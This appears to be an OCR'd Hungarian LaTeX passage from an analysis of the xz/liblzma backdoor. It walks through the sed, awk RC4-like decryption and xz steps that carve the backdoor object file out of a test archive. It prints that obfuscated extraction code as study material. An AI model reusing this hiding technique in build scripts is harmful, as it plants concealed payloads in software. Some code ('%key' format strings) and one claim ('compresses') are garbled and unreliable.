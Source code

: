 \documentclass[11pt]{article}
\begin{document}
\begin{enumerate}
    \item Az első allépés megegyezik az 1. lépés 2. allépésével - a \lstinline{tests/files/good-large\_compressed.lzma} fájlt az \lstinline{xz}-vel kicsomagoljuk.

    \item A második lépés is megegyezik az 1. lépés 3. allépésével - ez volt a sok egymásba láncolt \lstinline{head} parancs hívás.

    \item Viszont ezután kezdenek eltérni a lépések, az előző kimenetet átalakítják a \lstinline{sed} parancs segítségével (a kódban angol nyelvű kommentek találhatóak, amelyek a forrásból származnak, és segíthetnek a kód megértésében):
    \begin{lstlisting}[language=bash]
LC_ALL=C sed "s/\(.\)/\1\n/g"
    \end{lstlisting}
    Ez a parancs lényegében minden bájt után sortörés karaktert szúr be, kivéve a sortörés karakter után.
    Lényegében ez egy byte-per-line állományt fog alkotni.

    \item Az \lstinline{awk} parancs lényegében az RC4-hez egy nagyon hasonló algoritmust implementál le:
    \begin{lstlisting}[language=bash]
BEGIN {  # Initialization part.
  FS = "\n";  # Some AWK settings.
  RS = "\n";
  ORS = "";
  m = 256;
  for(i=0;i<m;i++) {
    t[sprintf("x%key", i)] = i;
    key[i] = ((i * 7) + 5) % m;  # Creating the cipher key.
  }
  i=0;  # Skipping 4096 first bytes of the output PRNG stream.
  j=0;  # it's a typical RC4 thing to do.
  for(l = 0; l < 4096; l++) {  # 5.6.1 uses 8192 instead.
    i = (i + 1) % m;
    a = key[i];
    j = (j + a) % m;
    key[i] = key[j];
    key[j] = a;
  }
}

{  # Decription part.
  # Getting the next byte.
  v = t["x" (NF < 1 ? RS : $1)];

  # Iterating the RC4 PRNG.
  i = (i + 1) % m;
  a = key[i];
  j = (j + a) % m;
  b = key[j];
  key[i] = b;
  key[j] = a;
  k = key[(a + b) % m];

  # As pointed out by @nugxperience, RC4 originally XORs the encrypted byte
  # with the key, but here for some add is used instead (might be an AWK thing).
  printf "%key", (v + k) % m
}
    \end{lstlisting}

    \item Amiután a bemenetet sikeresen dekriptálta, tömöríti:
    \begin{lstlisting}[language=bash]
xz -dc --single-stream
    \end{lstlisting}

    \item Végül az \lstinline{N (0)}-tól a \lstinline{W ~(86KB)}-ig terjedő bájtokat a szokásos \lstinline{head parancsos} trükkökkel kivágják, és \lstinline{liblzma\_la-crc64-fast.o} néven elmentik. Ez lesz a végleges bináris backdoor.
\end{enumerate}
\end{document}
